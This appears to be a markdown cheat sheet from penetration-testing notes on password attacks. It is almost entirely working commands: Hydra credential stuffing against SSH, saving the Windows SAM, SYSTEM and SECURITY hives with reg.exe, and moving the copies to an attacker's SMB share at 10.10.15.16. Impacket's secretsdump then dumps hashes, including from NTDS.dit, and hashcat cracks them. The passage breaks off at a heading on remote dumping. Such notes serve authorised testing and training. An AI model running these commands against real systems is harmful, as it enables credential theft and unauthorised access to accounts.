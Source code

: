 #### Credential Stuffing - Hydra Syntax
```Shell
hydra -C <user_pass.list> <protocol>://<IP>
```

#### Credential Stuffing - Hydra
```Shell
hydra -C user_pass.list ssh://10.129.42.197
```


## Attacking SAM

#### Using reg.exe save to Copy Registry Hives
```cmd.exe
reg.exe save hklm\sam C:\sam.save
```

```cmd.exe
reg.exe save hklm\system C:\system.save
```

```cmd.exe
reg.exe save hklm\security C:\security.save
```

#### Creating a Share with smbserver.py
```Shell
smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

#### Moving Hive Copies to Share
```cmd.exe
move sam.save \\10.10.15.16\CompData
```

```cmd.exe
move security.save \\10.10.15.16\CompData
```

```cmd.exe
move system.save \\10.10.15.16\CompData
```
Then we can confirm that our hive copies successfully moved to the share by navigating to the shared directory on our attack host and using ls to list the files.

### Dumping Hashes with Impacket's secretsdump.py

#### Running secretsdump.py
```Shell
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

#### Running Hashcat against NT Hashes
```cmd.exe
hashcat -m 1000 hashestocrack.txt rockyou.txt
```
#### Dumping NTDS.dit locally
```Shell
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```
### Remote Dumping & LSA Secrets Considerations
